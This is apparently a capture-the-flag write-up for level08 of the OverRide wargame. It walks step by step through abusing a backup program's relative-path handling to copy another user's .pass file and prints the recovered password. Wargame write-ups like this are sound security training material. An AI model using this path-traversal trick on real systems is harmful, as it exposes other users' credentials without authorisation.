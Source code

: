 ### Download binary
``scp -P4242 level06@192.168.31.33:/home/users/level06/level06 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (refer to source code)

The main vulnerability in the provided code lies in the way the program handles file paths. Specifically, the program uses relative paths rather than absolute paths. This makes it susceptible to path traversal attacks, where an attacker can trick the program into accessing directories outside of the intended scope.

----

### Preparing the attack

Navigate to a directory you have write permissions in. The /tmp directory is a good choice as it's world-writable.
``level08@OverRide:~$ cd /tmp``


Create Malicious Directory Structure:

Craft a directory structure that, when combined with the program's relative path, leads to the file you want to backup (copy). Here, we want to copy the .pass file of level09.
``level08@OverRide:/tmp$ mkdir -p './backups/home/users/level09/'``

----

### Bypassing security

Run the Program with Target File:
``level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass``

Display the result
``level08@OverRide:/tmp$ cat backups/home/users/level09/.pass``
>fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
